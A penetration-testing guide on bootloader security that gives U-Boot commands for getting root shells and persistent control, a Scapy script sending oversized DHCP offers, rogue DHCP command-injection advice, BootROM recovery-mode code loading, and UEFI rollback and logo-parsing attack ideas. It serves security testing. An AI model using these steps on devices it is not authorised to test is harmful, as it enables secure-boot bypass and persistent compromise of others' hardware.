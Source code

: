 # Bootloader Testing

The following steps are recommended for modifying device startup configurations and testing bootloaders such as U-Boot and UEFI-class loaders. Focus on getting early code execution, assessing signature/rollback protections, and abusing recovery or network-boot paths.

Related: MediaTek secure-boot bypass via bl2_ext patching:

[[android-mediatek-secure-boot-bl2_ext-bypass-el3.md]]

## U-Boot quick wins and environment abuse

1. Access the interpreter shell
   - During boot, hit a known break key (often any key, 0, space, or a board-specific "magic" sequence) before `bootcmd` executes to drop to the U-Boot prompt.

2. Inspect boot state and variables
   - Useful commands:
     - `printenv` (dump environment)
     - `bdinfo` (board info, memory addresses)
     - `help bootm; help booti; help bootz` (supported kernel boot methods)
     - `help ext4load; help fatload; help tftpboot` (available loaders)

3. Modify boot arguments to get a root shell
   - Append `init=/bin/sh` so the kernel drops to a shell instead of normal init:
     ```
     # printenv
     # setenv bootargs 'console=ttyS0,115200 root=/dev/mtdblock3 rootfstype=<fstype> init=/bin/sh'
     # saveenv
     # boot    # or: run bootcmd
     ```

4. Netboot from your TFTP server
   - Configure network and fetch a kernel/fit image from LAN:
     ```
     # setenv ipaddr 192.168.2.2      # device IP
     # setenv serverip 192.168.2.1    # TFTP server IP
     # saveenv; reset
     # ping ${serverip}
     # tftpboot ${loadaddr} zImage           # kernel
     # tftpboot ${fdt_addr_r} devicetree.dtb # DTB
     # setenv bootargs "${bootargs} init=/bin/sh"
     # booti ${loadaddr} - ${fdt_addr_r}
     ```

5. Persist changes via environment
   - If env storage isn’t write-protected, you can persist control:
     ```
     # setenv bootcmd 'tftpboot ${loadaddr} fit.itb; bootm ${loadaddr}'
     # saveenv
     ```
   - Check for variables like `bootcount`, `bootlimit`, `altbootcmd`, `boot_targets` that influence fallback paths. Misconfigured values can grant repeated breaks into the shell.

6. Check debug/unsafe features
   - Look for: `bootdelay` > 0, `autoboot` disabled, unrestricted `usb start; fatload usb 0:1 ...`, ability to `loady`/`loads` via serial, `env import` from untrusted media, and kernels/ramdisks loaded without signature checks.

7. U-Boot image/verification testing
   - If the platform claims secure/verified boot with FIT images, try both unsigned and tampered images:
     ```
     # tftpboot ${loadaddr} fit-unsigned.itb; bootm ${loadaddr}     # should FAIL if FIT sig enforced
     # tftpboot ${loadaddr} fit-signed-badhash.itb; bootm ${loadaddr} # should FAIL
     # tftpboot ${loadaddr} fit-signed.itb; bootm ${loadaddr}        # should only boot if key trusted
     ```
   - Absence of `CONFIG_FIT_SIGNATURE`/`CONFIG_(SPL_)FIT_SIGNATURE` or legacy `verify=n` behavior often allows booting arbitrary payloads.

## Network-boot surface (DHCP/PXE) and rogue servers

8. PXE/DHCP parameter fuzzing
   - U-Boot’s legacy BOOTP/DHCP handling has had memory-safety issues. For example, CVE‑2024‑42040 describes memory disclosure via crafted DHCP responses that can leak bytes from U-Boot memory back on the wire. Exercise the DHCP/PXE code paths with overly long/edge-case values (option 67 bootfile-name, vendor options, file/servername fields) and observe for hangs/leaks.
   - Minimal Scapy snippet to stress boot parameters during netboot:
     ```python
     from scapy.all import *
     offer = (Ether(dst='ff:ff:ff:ff:ff:ff')/
              IP(src='192.168.2.1', dst='255.255.255.255')/
              UDP(sport=67, dport=68)/
              BOOTP(op=2, yiaddr='192.168.2.2', siaddr='192.168.2.1', chaddr=b'\xaa\xbb\xcc\xdd\xee\xff')/
              DHCP(options=[('message-type','offer'),
                            ('server_id','192.168.2.1'),
                            # Intentionally oversized and strange values
                            ('bootfile_name','A'*300),
                            ('vendor_class_id','B'*240),
                            'end']))
     sendp(offer, iface='eth0', loop=1, inter=0.2)
     ```
   - Also validate if PXE filename fields are passed to shell/loader logic without sanitization when chained to OS-side provisioning scripts.

9. Rogue DHCP server command injection testing
   - Set up a rogue DHCP/PXE service and try injecting characters into filename or options fields to reach command interpreters in later stages of the boot chain. Metasploit’s DHCP auxiliary, `dnsmasq`, or custom Scapy scripts work well. Ensure you isolate the lab network first.

## SoC ROM recovery modes that override normal boot

Many SoCs expose a BootROM "loader" mode that will accept code over USB/UART even when flash images are invalid. If secure-boot fuses aren’t blown, this can provide arbitrary code execution very early in the chain.

- NXP i.MX (Serial Download Mode)
  - Tools: `uuu` (mfgtools3) or `imx-usb-loader`.
  - Example: `imx-usb-loader u-boot.imx` to push and run a custom U-Boot from RAM.
- Allwinner (FEL)
  - Tool: `sunxi-fel`.
  - Example: `sunxi-fel -v uboot u-boot-sunxi-with-spl.bin` or `sunxi-fel write 0x4A000000 u-boot-sunxi-with-spl.bin; sunxi-fel exe 0x4A000000`.
- Rockchip (MaskROM)
  - Tool: `rkdeveloptool`.
  - Example: `rkdeveloptool db loader.bin; rkdeveloptool ul u-boot.bin` to stage a loader and upload a custom U-Boot.

Assess whether the device has secure-boot eFuses/OTP burned. If not, BootROM download modes frequently bypass any higher-level verification (U-Boot, kernel, rootfs) by executing your first-stage payload directly from SRAM/DRAM.

## UEFI/PC-class bootloaders: quick checks

10. ESP tampering and rollback testing
   - Mount the EFI System Partition (ESP) and check for loader components: `EFI/Microsoft/Boot/bootmgfw.efi`, `EFI/BOOT/BOOTX64.efi`, `EFI/ubuntu/shimx64.efi`, `grubx64.efi`, vendor logo paths.
   - Try booting with downgraded or known-vulnerable signed boot components if Secure Boot revocations (dbx) aren’t current. If the platform still trusts old shims/bootmanagers, you can often load your own kernel or `grub.cfg` from the ESP to gain persistence.

11. Boot logo parsing bugs (LogoFAIL class)
   - Several OEM/IBV firmwares were vulnerable to image-parsing flaws in DXE that process boot logos. If an attacker can place a crafted image on the ESP under a vendor-specific path (e.g., `\EFI\<vendor>\logo\*.bmp`) and reboot, code execution during early boot may be possible even with Secure Boot enabled. Test whether the platform accepts user-supplied logos and whether those paths are writable from the OS.

## Hardware caution

Be cautious when interacting with SPI/NAND flash during early boot (e.g., grounding pins to bypass reads) and always consult the flash datasheet. Mistimed shorts can corrupt the device or the programmer.

## Notes and additional tips

- Try `env export -t ${loadaddr}` and `env import -t ${loadaddr}` to move environment blobs between RAM and storage; some platforms allow importing env from removable media without authentication.
- For persistence on Linux-based systems that boot via `extlinux.conf`, modifying the `APPEND` line (to inject `init=/bin/sh` or `rd.break`) on the boot partition is often enough when no signature checks are enforced.
- If userland provides `fw_printenv/fw_setenv`, validate that `/etc/fw_env.config` matches the real env storage. Misconfigured offsets let you read/write the wrong MTD region.

## References

- [https://scriptingxss.gitbook.io/firmware-security-testing-methodology/](https://scriptingxss.gitbook.io/firmware-security-testing-methodology/)
- [https://www.binarly.io/blog/finding-logofail-the-dangers-of-image-parsing-during-system-boot](https://www.binarly.io/blog/finding-logofail-the-dangers-of-image-parsing-during-system-boot)
- [https://nvd.nist.gov/vuln/detail/CVE-2024-42040](https://nvd.nist.gov/vuln/detail/CVE-2024-42040)


